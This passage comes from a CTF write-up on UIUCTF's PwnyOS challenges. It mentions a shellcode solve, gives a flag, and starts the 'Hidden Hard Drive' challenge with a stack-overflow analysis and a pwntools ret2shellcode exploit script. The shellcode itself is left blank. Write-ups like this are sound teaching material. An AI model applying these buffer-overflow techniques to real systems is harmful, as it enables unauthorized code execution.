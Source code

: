 <img width="520" alt="correct shellcode" src="https://user-images.githubusercontent.com/62653826/128644864-53a5ad49-f104-4a55-a13f-a36b2bc8c666.png">


I was the first to craft working shellcode and successfully execute it on the twitch, however I was slow to transcribe it to the flag submission box, and ended up being the 5th solve. Turns out there were 5 other teams quietly watching me. A few other teams solved after that from copying my shellcode, and then various other solves came to follow. My main issue with the challenge was the publicity, but other than that it was an interesting introudction to PwnyOS.

<img width="405" alt="Flag" src="https://user-images.githubusercontent.com/62653826/128645002-bdb2b60b-b261-414c-a9e2-22bca85414b3.png">

Flag: `uiuctf{t34mw0rk_r3ally_m4k35_th3_dream_w0rk}`

## Hidden Hard Drive

<img width="443" alt="Challenge description" src="https://user-images.githubusercontent.com/62653826/128645141-f4daee63-d892-4765-9a43-5b980e0e6865.png">


I will screenshot the release notes as required.

This was the only pwnyos challenge I did not solve during the ctf, due to failure to examine every nook and cranny of the information. However with a nudge from Ravi I was able to solve it about 13 hours after the ctf ended.

For this challenge and the next two, we're given a local instance of pwnyos, allowing for debugging and also for reversing the kernel.

In this challenge, there is no binexec, and instead an ELF called hidden_hard_drive. Furtheremore, the hard disk drive hda is loaded with the flag. This is not accessable from the file system.

There are 3 steps to this challenge - exploiting the program to gain shellcode execution, elevating privilege level, and reading the flag.

### Exploiting the Program
PwnyOS still uses the ELF file format(with a few requirements) and is just i386, so reversing is simple. I used ghidra.

![Decompilation](https://user-images.githubusercontent.com/62653826/128645290-07ca108d-11cd-4493-b2c7-0e462d8ca0c3.png)


The program prints the address of the input, and then reads 256 bytes into it. The buffer, however, is on the stack and only 64 bytes long, giving stack overflow. The buffer is at ebp - 0x44, giving an offset of 0x48 bytes(fill up buffer and saved ebp) until we can overwrite RIP. The binary has no NX or anything, so a simple ret2shellcode attack can be executed.

```python
from pwn import *
import time
e = ELF("./fs/fs/bin/hidden_hard_drive")
context.arch = "i386"
p = process("./start.sh",shell=True) if args.LOCAL else remote('hiddenhd-pwnyos.chal.uiuc.tf', 1337)
NUM_TO_RET = 0x48

# Run vulnerable binary
time.sleep(5)
p.sendline("hidden_hard_drive")
p.recvuntil("0x")
bufaddr = int(p.recvline(), 16)
log.info(f"Buffer address: {hex(bufaddr)}")
#sc =
payload = fit({0: sc, NUM_TO_RET: bufaddr})
pause()
p.sendline(payload)
```
The OS takes a little time to boot, so I added a sleep before running the binary.

